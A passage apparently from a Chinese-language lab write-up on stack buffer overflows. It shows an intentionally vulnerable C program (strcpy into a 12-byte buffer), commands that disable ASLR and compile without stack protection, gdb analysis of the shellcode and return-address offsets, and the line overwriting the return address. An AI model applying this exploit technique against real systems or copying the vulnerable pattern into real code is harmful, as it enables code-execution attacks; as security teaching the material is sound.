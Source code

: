 ```c
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

上述代码是利用缓冲区溢出漏洞实现的攻击程序，目的是生成一个恶意代码文件 "badfile"，利用strcpy缓冲区漏洞，让用户在读取文件时跳转至预设的shellcode。

```c
// satck.c

#include <stdio.h>
#include <string.h>

int bof(char *str){
    char buffer[12];
    strcpy(buffer, str);
    return 1;
}

int main(){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

首先需要确定的是攻击地址，取消地址随机化并调试stack文件。

```shell
sudo sysctl -w kernel.randomize_va_space=0
gcc -Wall -g -o stack stack.c -fno-stack-protector -z execstack -m32
gdb stack -q
```

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131109729.png">

可以看出stack.c中str字符数组的地址是0xffffce97，由于strcpy的复制，使得exploit.c中buffer数组内容的地址也是0xffffce97。在exploit.c中，将shellcode的内容放在距buffer偏移量为100的地方，所以可知内存中存储shellcode的地址为0xffffce97+0x64(100)=0xffffcefb。

查看bof函数的汇编代码，确定返回地址。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131114431.png">

从上图中看到lea -0x14(%ebp), %edx，可知buffer存储在ebp-0x14的位置，即buffer距ebp的距离为0x14，根据栈帧分析可知return address位置为0x14+4（十进制）=0x18。

关键代码：

```c
strcpy(buffer+0x18,"\xfb\xce\xff\xff");
```
